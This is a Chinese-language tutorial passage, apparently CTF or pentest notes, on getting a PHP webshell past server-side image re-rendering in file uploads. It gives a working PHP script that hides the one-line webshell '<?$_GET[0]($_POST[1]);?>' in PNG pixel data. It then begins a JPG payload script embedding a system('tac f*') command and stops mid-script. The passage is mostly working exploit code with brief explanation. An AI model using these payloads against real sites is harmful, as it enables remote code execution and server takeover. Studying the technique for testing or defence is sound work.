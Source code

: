 ## 图片二次渲染绕过

漏洞原理是，当我们上传文件后，网站会对图片进行二次处理（比如格式、尺寸）。图片的内容会被替换、更新，以将原有的图片生成新的图片以供显示。我们将恶意代码置入图片不会被处理的部分，这样假如我们能包含这个图片文件时即可利用。

这里放一个`png`格式的图片的脚本。

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'2.png');  //要修改的图片的路径
/* 木马内容
<?$_GET[0]($_POST[1]);?>
 */

?>
```

和`jpg`格式图片的脚本：

这个脚本需要在`Linux`下运行，且需要安装`php-gd`：

```bash
# jpg脚本需要php-gd库，下面为下载流程
sudo apt-cache search php-gd（查询需要的php-gd版本）
sudo apt-get install php7.4-gd
sudo php -m（查看gd是否安装成功）
```

且需要先将正常`jpg`上传到服务器，再下载下来，再把下载下来的图片用这个脚本处理。

`jpg`格式图片比较特殊，假如不行就多用几个`jpg`试试。

```php
<?php
    $miniPayload = "<?php system('tac f*');?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");
```
